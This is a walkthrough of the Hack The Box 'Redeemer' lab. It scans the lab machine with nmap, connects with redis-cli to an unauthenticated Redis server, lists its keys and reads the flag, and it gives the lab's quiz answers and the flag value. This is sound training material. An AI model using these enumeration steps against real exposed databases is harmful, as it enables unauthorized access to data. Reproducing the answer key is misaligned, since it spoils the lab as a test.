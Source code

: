 ```yaml
---
title: "Redeemer Walkthrough HTB"
layout: post
categories:
    - Hack The Box
    - Tier 0
---
```


Redis is an open source (BSD licensed), in-memory data structure store used as a database, cache, message broker, and streaming engine. Redis provides data structures such as strings, hashes, lists, sets, sorted sets with range queries, bitmaps, hyperloglogs, geospatial indexes, and streams. Redis has built-in replication, Lua scripting, LRU eviction, transactions, and different levels of on-disk persistence, and provides high availability via Redis Sentinel and automatic partitioning with Redis Cluster.


---

💻️ The Target Machine is : 10.129.61.157

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Consider the command below:
```
-$ export IP=10.129.61.157 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.61.157
```

### Answering HTB Questions 

> Which TCP port is open on the machine? 
>> 6379

>  Which service is running on the port that is open on the machine? 
>> redis

>  What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database 
>> In-memory database

[**In-memory database**]() is a database that keeps data in the main memory aka RAM, therefore each time you query the DB or even update the DB then you basically access the main memory. There is no secondary memory usage in the operations. Hence, if the machine crashes the data is lost.

>  Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments. 
>> Redis-cli

>  Which flag is used with the Redis command-line utility to specify the hostname? 
>> -h

>  Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? 
>> INFO

>  What is the version of the Redis server being used on the target machine? 
>> 5.0.7

>  Which command is used to select the desired database in Redis? 
>> select

I wrote `select` because it is usually the go to command to access databases and tables more so when using SQL.
Up to this point I basically used help command to figure things out and move around, but I haven't been able to view the databases that are available let alone the tables.
The onlything to do now is research on redis and the system 😅️.

After an enourmous time of googling here is what I found.

> Redis provides you with 16 databases starting from index 0 to index 15. You can switch to a database using the select command as:
```
127.0.0.1:6379> select 1
OK
127.0.0.1:6379[1]>
```
Use [this](https://linuxhint.com/redis-cli/) for reference.

Also, Redis is a NO-SQL type of database system. So that would mean that it is a non-relational DB 🤔️.

A tip that I found was to use this [site](https://book.hacktricks.xyz/welcome/readme) it is called hacktricks, a wonderful resource for knowledge in terms of ctfs.

In-depth reference would be [cryptocat](https://www.youtube.com/watch?v=usZ78an3jXE&t=6s) video.

 
>  How many keys are present inside the database with index 0? 
>> 4



>  Which command is used to obtain all the keys in a database? 
>> keys *


## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

---snip---

```
**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [scan.nmap]()

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine.

Okay let's put it all together, as shown below:
```
$ redis-cli -h $IP

10.129.61.157:6379> INFO

# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64

---snip---
```
The info command gives us details about the system.

```
10.129.61.157:6379> dbsize
(integer) 4
```
This just stated the size of the DB.
```
10.129.61.157:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
To dump the whole database we use the command above, db0 basically denotes the index 0 which is a database. Notice that the number of keys are 4 and each key ought to have a value 🤔️.
```
10.129.61.157:6379> select 0
OK
10.129.61.157:6379> keys *
1) "numb"
2) "flag"
3) "temp"
4) "stor"
10.129.61.157:6379> get "flag"
"03e1d2b376c37ab3f5319922053953eb"
```
So I needed to select the database, which I did, there after list all the keys.
The * denotes list everything or include everything.
What is listed are basically keys and their data type is string.
To get the values you basically use the get command together with the key.

> Submit root flag
>> 03e1d2b376c37ab3f5319922053953eb
